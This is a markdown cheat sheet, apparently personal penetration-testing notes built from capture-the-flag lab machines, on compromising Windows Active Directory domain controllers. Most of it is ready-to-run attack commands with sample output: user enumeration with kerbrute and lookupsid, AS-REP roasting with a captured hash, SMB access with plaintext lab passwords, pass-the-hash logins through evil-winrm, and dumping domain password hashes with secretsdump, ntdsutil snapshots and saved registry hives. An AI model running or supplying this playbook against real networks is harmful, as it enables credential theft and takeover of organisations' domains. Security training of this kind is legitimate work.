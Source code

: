 # Domain Controllers
## Basics 
- Find the NETBIOS Domain Name
````
nbtscan -v 10.10.8.1-254
````
- Should also be in nmap output
````
3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   DNS_Tree_Name: spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2021-08-20T18:00:52+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Issuer: commonName=AttacktiveDirectory.spookysec.local
````
- Add to `/etc/hosts`
## Kerbrute
- Find valid users
- Example Syntax
````
kerbrute -users userlist.txt -domain spookysec.local -dc-ip 10.10.55.114
Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[*] Valid user => james
[*] Valid user => svc-admin [NOT PREAUTH]
[*] Valid user => James
[*] Valid user => robin
[*] Blocked/Disabled user => guest
[*] Valid user => darkstar
````
## Impacket
- Location:
````
/usr/share/doc/python3-impacket/examples/
````
- If we have IPC$ access without authentication we are able to list the domain users as anonymous
````
python3 lookupsid.py anonymous@10.10.10.10 | tee users.txt
````
- Isolate the users with `SidTypeUser`
````
grep SidTypeUser users.txt | awk '{print $2}' | cut -d "\\" -f2 > users.txt
````
- Now, let’s use `GetNPUsers.py` to find users without Kerberos pre-authentication:
````
python3 GetNPUsers.py vulnnet-rst.local/ -no-pass -userfile usernames.txt
````
- Should retrive a hash if the command is sucessful
````
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:692e76f70a8772c46ed94e73130460c8$713b0693498fdaff68642d78e713ca965e5007d5d864ca727289930783fe28f00bf79fef8126c4722d09cafc72ec60e940d31297591f67ce049030cb531ddd9c83cd37796fbf414b830a7c90fe26d2c45d6f2b624cd4413c58e3dbb77519dd69906248f8db27b1974b880a826003e562e25d9de9e4cb7cfa85c1de954761053b7d51a455530001348b46909f91f4e80bae7374071339f0920bb3e2ad95169d20f05d0cd586882facb63c058072dacb7ec8ddbcd9297331e1f6fb6d844ea7967659bee38fde4431af9f9608e9adcb38cb6e20e72bcf61c524f480b5ea2530e16dbeed2272855a61a05c03e84653aa1a3bbbd5ece06633
````
- Crack the hash with `john`
### SMB Samba authenticated access
````
smbclient -U vulnnet-rst.local/t-skid //10.10.100.15/NETLOGON
smbmap -u svc-admin -p management2005 -H 10.10.248.93
smbclient -U spookysec.local/svc-admin \\\\10.10.248.93\\backup 
````

- Cat out files with `smb`
````
Enter VULNNET-RST.LOCAL\t-skid's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Mar 17 00:15:49 2021
  ..                                  D        0  Wed Mar 17 00:15:49 2021
  ResetPassword.vbs                   A     2821  Wed Mar 17 00:18:14 2021

        8540159 blocks of size 4096. 4318542 blocks available
smb: \> get ResetPassword.vbs -
````
### evil-winrm
- Connect with pass the hash attack
````
evil-winrm -i 10.10.100.15 -u administrator -H "c2597747aa5e43022a3a3049a3c3b09d"
evil-winrm -i 10.10.100.15 -u a-whitehat -p "bNdKVkjv3RR9ht"
````
### Dump hashes
- Use `secretsdump.py` with impacket
- This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. 
- Creds used need to be domain admin for this to work 
````
python3 secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.100.15
python3 secretsdump.py spookysec.local/backup:backup2517860@10.10.248.93
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
````
![spooky](https://user-images.githubusercontent.com/75596877/130284812-511a8141-5917-4954-8c29-e623c1edce36.png)
#### Alt Method 
- Open `cmd.exe`
- Run `ntdsutil` from the command prompt, enter these commands 
````
snapshot
activate instance NTDS
create
````
- Takes a snapshot of the DC 
- Will show you the UUID of the newly created snapshot. 
- ntdsutil is using Volume Shadow Copy for the snapshot creation, but also ensures the database consistency. Use the UUID for the following command:
````
mount <UUID>
````
- The output will show the path where the snapshot was mounted. Start another cmd.exe as Administrator and copy NTDS.dit (located in `Windows\NTDS\NTDS.dit` by default).
- Create a copy of the `SYSTEM` registry hive:
````
reg.exe save HKLM\SYSTEM <path_where_you_want_to_save_it>
````
- Go back to the `cmd.exe` window with `ntdsutil` running, and `unmount` (and optionally `delete`) the snapshot and exit:
````
unmount <UUID>
delete <UUID>
quit
quit
````
- Using the two saved files (`NTDS.dit` and `SYSTEM` registry hive) you can use the same `secretsdump.py` script to extract password hashes offline (doesn’t need to be done on the domain controller):
````
secretsdump.py -system <path_to_system_hive> -ntds <path_to_ntds.dit> LOCAL
````
#### Secretsdump Local 
- Exfil the registry hives 
````
reg.exe save hklm\security C:\temp\security.save
reg.exe save hklm\system C:\temp\system.save
````
- Extract hashes from exfiled SECURITY and SYSTEM
````
python3 secretsdump.py -security security.save -system system.save LOCAL
````

#### Another Cheatsheet
- https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a







































